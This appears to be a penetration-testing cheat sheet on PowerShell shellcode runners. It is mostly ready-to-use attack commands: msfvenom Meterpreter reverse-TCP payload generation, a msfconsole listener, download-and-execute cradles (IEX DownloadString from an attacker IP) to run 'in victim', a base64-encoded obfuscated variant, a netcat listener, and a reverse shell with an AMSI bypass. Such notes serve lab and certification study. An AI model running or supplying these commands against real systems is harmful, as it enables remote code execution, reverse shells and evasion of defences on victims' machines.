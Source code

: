 # Powershell Shellcode Runner

<details>

<summary>Powershell Shellcode Runner</summary>

* Download all files from [https://github.com/n000b3r/PrivEsc/tree/main/Windows/ps\_shellcode\_runner](https://github.com/n000b3r/PrivEsc/tree/main/Windows/ps_shellcode_runner)

- Change Line 1 of `runall.ps1` to Kali's IP

* Host using gup / python http server on Kali&#x20;
  * If is64ps = False, have to change to 32bit payload (windows/meterpreter/reverse\_tcp)

<figure><img src="../.gitbook/assets/image (333).png" alt=""><figcaption></figcaption></figure>

* Generate the following payload & put in line 44 of shellcoderunner.ps1

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f powershell
```

* Start Msfconsole listener

```bash
msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
```

* Run following in victim

```powershell
#In CMD.exe
powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

#In Powershell.exe
IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

#Base64 encoded powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1') save to to_encode.txt
python b64_encode.py to_encode.txt
powershell -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEAOQA3AC8AcgB1AG4AYQBsAGwALgBwAHMAMQAnACkA
```

</details>

<details>

<summary>Simple Powershell Reverse shell with AMSI Bypass (<a href="https://github.com/n000b3r/PrivEsc/blob/main/Windows/ps_shellcode_runner/simple_ps_revshell.ps1">simple_ps_revshell.ps1</a>)</summary>

* Download all files from [https://github.com/n000b3r/PrivEsc/tree/main/Windows/simple\_ps\_revshell](https://github.com/n000b3r/PrivEsc/tree/main/Windows/simple_ps_revshell)

- Change Line 1 in runall.ps1 to Kali's IP
- Change IP and port in simple\_ps\_revshell.ps1

```powershell
# Start nc listener
    nc -lvp 443

# In victim's cmd shell
    powershell -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1')

# OR encoded powershell command
    IEX (New-Object Net.WebClient).DownloadString('http://192.168.61.128/runall.ps1') save to to_encode.txt 
    python b64_encode.py to_encode.txt 
    powershell -e <b64 payload>
```

</details>



